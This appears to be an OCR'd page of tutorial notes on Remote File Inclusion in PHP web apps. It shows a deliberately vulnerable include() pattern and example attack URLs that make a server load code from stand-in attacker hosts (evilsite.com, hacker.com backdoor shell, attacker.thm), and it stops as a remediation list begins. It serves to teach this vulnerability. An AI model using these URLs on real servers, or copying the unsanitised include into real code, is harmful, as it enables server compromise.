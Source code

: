 ```ad-example

`Page2.jsp?conf=https://evilsite.com/attack.js`

- RFI attacks are often launched by manipulating the request parameters to refer to a remote malicious file.

For example, consider the following code:

`$incfile = $_REQUEST["file"]; include($incfile.".php");`

Here, the first line extracts the file parameter value from the HTTP request, while the second line uses that value to dynamically set the file name. In the absence of appropriate sanitization of the file parameter value, this code can be exploited for unauthorized file uploads.

For example, this URL stringÂ `http://www.example.com/vuln_page.php?file=http://www.hacker.com/backdoor_`Â contains an external reference to a backdoor file stored in a remote location `(http://www.hacker.com/backdoor_shell.php.)`

Having been uploaded to the application, this backdoor can later be used to hijack the underlying server or gain access to the application database.

![R57 backdoor shell](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/r57-backdoor-shell.jpg.webp)

The R57 backdoor shell is a popular choice for RFI attacks.
```

# RFIÂ steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts aÂ PHPÂ file on their own serverÂ `http://attacker.thm/cmd.txt`Â whereÂ `cmd.txt`Â contains a printing messageÂ Â HelloÂ THM.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such asÂ `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send aÂ GETÂ request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute theÂ PHPÂ file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show theÂ HelloÂ THMÂ message.


## REMEDIATION

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

  